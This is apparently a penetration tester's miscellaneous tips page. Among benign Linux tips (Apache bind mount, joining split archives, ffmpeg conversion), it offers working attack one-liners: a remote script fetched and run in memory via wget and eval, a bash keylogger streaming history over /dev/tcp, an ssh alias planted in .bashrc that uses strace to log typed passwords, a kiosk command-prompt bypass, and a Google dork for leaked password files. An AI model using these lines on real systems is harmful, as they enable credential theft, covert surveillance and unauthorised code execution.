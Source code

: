 # Random

### Cool heredoc&#x20;

* Use when you are on a `/bin/sh` and need to `su` but dont want to go into a full `tty`

```
su - root <<!
Passw0rd
id
ls /root
!
Password: uid=0(root) gid=0(root) groups=0(root)
Desktop  Documents  Downloads  go  Music  Pictures  Public  Templates  thinclient_drives  Videos
```

### Bypass a disabled command prompt with /k

```
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

### _Luks On USBs_

* [https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/](https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/)

### Bash In memory exec one liner&#x20;

```
bash -c CMD="`wget -qO- http://<ip>/script.sh`" && eval "$CMD"
```

### Bash Keylogger&#x20;

```
PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'
```

### SSH Client Strace Keylogger

* Poor mans keylogger for ssh client but it works. Add to the users `.bashrc`&#x20;

```
alias ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

* remember to source the `.bashrc`
* `source ~/.bashrc`

### Apache map external drive to webroot

* Create a directory on the external HDD, assuming it is mounted under the `/media` directory, like so:

```
sudo mkdir /media/web_files
```

* Change the ownership of this directory and all the files under it to be owned by the Apache user `www-data` like so:

```
sudo chown -R www-data:www-data /media/web_files/
```

* Create a directory under the web root directory ie `/var/www/html/` like so:

```
sudo mkdir /var/www/html/external_files
```

* Bind the `/media/web_files/` directory to the `/var/www/html/external_files/` directory like so:

```
sudo mount --bind /media/web_files/ /var/www/html/external_files/
```

* All files on the external HDD under the `/media/web_files/` directory will be available for Apache under the `/var/www/html/external_files/` directory and you can link to them in your web page that resides in `/var/www/html/` like so:

```
<a href="external_files/file1.mp4">file1</a>
```

### Unzip a chunked archive

* you will see files ending in .001, .002 etc etc&#x20;
*   You will need to join them first. You may use the common linux app, `cat` as in the example below:

    ```
    cat test.zip* > ~/test.zip
    ```

    This will concatenate all of your `test.zip.001`, `test.zip.002`, etc files into one larger, test.zip file. Once you have that single file, you may run `unzip test.zip`

## [How to convert .mkv file into .mp4 file losslessly?](https://askubuntu.com/questions/50433/how-to-convert-mkv-file-into-mp4-file-losslessly)

```
ffmpeg -i input.mkv -codec copy output.mp4
```

### Cool Google Dorks&#x20;

```
inurl:/wp-content/uploads/ ext:txt "username" AND "password" | "pwd" | "pw"
```
